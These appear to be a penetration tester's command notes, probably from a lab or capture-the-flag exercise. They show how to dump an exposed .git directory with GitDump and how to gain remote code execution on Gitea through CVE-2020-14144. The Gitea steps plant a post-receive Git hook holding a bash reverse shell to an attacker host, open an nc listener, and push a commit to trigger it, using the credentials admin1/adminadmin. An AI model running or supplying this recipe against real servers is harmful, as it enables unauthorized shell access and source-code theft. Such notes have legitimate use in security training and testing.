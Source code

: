 https://pentestbook.six2dez.com/enumeration/webservices/github

```bash - kali
git clone https://github.com/Ebryx/GitDump
```

```bash - kali
cd GitDump
```

```bash - kali
python3 git-dump.py http://$TARGET/.git/
```

```bash - kali
cd output && git checkout -- .
```

```bash - kali
git log
```

#### Gitea

https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/


sign in > Create new repository (shelly) > Settings > Git Hooks > post-receive

```bash - Gitea
#!/bin/bash
bash -i >& /dev/tcp/$KALI/3000 0>&1 &
```

```bash - kali
touch README.md
```

```bash - kali
git init
```

```bash - kali
git add README.md
```

```bash - kali
git commit -m "Initial commit"
```

```bash - kali
git remote add origin http://$TARGET:3000/admin1/shelly.git
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

```bash - kali
git push -u origin master
```

```bash - kali
admin1
```

```bash - kali
adminadmin
```
